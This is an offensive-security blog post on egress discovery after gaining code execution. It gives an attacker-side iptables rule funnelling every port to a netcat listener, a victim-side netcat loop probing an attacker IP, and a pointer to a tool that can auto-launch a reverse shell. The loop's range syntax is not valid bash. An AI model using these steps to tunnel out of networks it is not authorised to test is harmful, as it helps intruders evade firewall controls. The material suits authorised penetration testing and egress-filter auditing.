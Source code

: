 +++
title = "Finding Your Way Out From Behind Firewalls with Strict Outbound Rules"
Description = "Finding Your Way Out From Behind Firewalls with Strict Outbound Rules"
date = "2017-02-07T19:44:18-05:00"
categories = ["HowTo"]
+++


You've achieved code execution on a machine, but for some reason your reverse shell isn't pinging you back.
Or that wget/tftp command isn't downloading your recon/post-exploitation tools. There's a chance you're
dealing with an egress problem. Typical ports that need outboud access are blocked. You try the main ones
you can think of (21, 22, 53, 80, 8080, 443), but none of them seem to be connecting. Do you start at 1 and
manually test? NO! The hallmarks of any decent programmer/hacker is laziness. So let's get lazy.

## The Concept

There's a few methods to achieve this, but at each of their cores, these 2 things are happening.

   * The attacking machine (66.66.66.66) needs to listen for something on every port.
   * Your victim machine (23.23.23.23.) needs to try to hit your machine on every port.


### netcat and iptables

__For the attacker__

Set all ports to redirect to a listener you've started.

~~~bash.prettyprint
iface=eth0
ip=66.66.66.66
lport=8080

iptables -t nat -A PREROUTING -i $iface -p tcp --dport 1:65535 -j DNAT --to-destination $ip:$lport
nc -nvlp $lport
~~~


__For the victim machine__

*nix: 

~~~bash.prettyprint
for port in (1..1000); do
  echo "Trying $port"
  nc -z -w1 66.66.66.66 $port
done
~~~

Netcat DOES accept ranges, so the following also works: `nc -w1 66.66.66.66 1-1000`. I usually find
that the bash loop's logging makes it easier to ID what worked if you walk away for a bit while it
runs.

### wireshark

If you have a GUI available on the attacking machine, you can repeat the above scenario, but
substitute the iptables and nc commands for wireshark with a sane filter; something like 

~~~bash.prettyprint
ip.src == 23.23.23.23
~~~

You should be able to watch the window for incoming packets and determine on which port
the victim machine was able to connect.

### egress-buster

If you've the ability to get files onto the target machine, the most robust option is
[egress-buster](https://github.com/trustedsec/egressbuster). The readme does a great job explaining
usage, but it's basically the first method, using iptables and python. It consists of two scripts,
a client and a server. It also has an option to automatically start the reverse shell once it finds
an available outgoing part.

